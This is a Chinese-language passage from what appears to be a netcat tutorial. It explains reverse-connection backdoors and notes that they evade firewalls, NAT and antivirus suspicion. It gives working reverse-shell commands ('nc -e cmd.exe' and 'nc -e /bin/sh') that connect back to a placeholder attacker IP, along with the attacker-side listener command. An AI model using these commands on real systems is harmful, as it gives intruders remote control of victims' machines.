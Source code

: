 　　原理其实与 “招数8” 很类似，唯一的差别在于——把客户端与服务端【对调】。也就是说，攻击者手头的 nc 充当服务端，而受害者机器上的 nc 充当客户端。此时，受害者本机的 nc【无须】开启监听端口，【不受】防火墙的影响，也【不受】NAT 的影响。

### ◇入侵方法

**步骤 1**  
　　既然 nc 的 “服务端” 与“客户端”对调。因此攻击者要先在自己机器上运行“服务端 nc”，命令如下（其中的 `xxx` 是端口号）。当然啦，攻击者自己电脑的防火墙需要允许 `xxx` 端口号对外监听。

```
nc -lk -p xxx
```

**步骤 2**  
　　如果受害者是 Windows 系统，只须如下命令就可以开启一个后门。

```
nc.exe -e cmd.exe x.x.x.x xxx
```

　　如果受害者是 POSIX 系统，则用如下命令：

```
nc -e /bin/sh x.x.x.x xxx
```

　　（在上述两个命令中， `xxx` 是步骤 1 用到的端口号，`x.x.x.x` 是攻击者的 IP 地址）

### ◇“【主动】连接型后门” 的优势之处（危险性之处）

　　简单对比一下 “后门的两种连接方式”。

　　**可用性**  
　　如果用 “被动型后门” 入侵桌面 PC，考虑到绝大部分桌面 PC 都处于内网（其网卡【并未】分配公网 IP）。对这种场景，攻击者需要与受害者在同一个局域网，才能与后门建立通讯。  
　　相比之下，“主动型后门” 就【没有】这种弊端。

　　**隐蔽性**  
　　“被动型后门” 需要显式开启监听端口，很容易引起用户的怀疑，或引起杀毒软件的注意。  
　　相比之下，“主动型后门” 就【没有】这个问题。

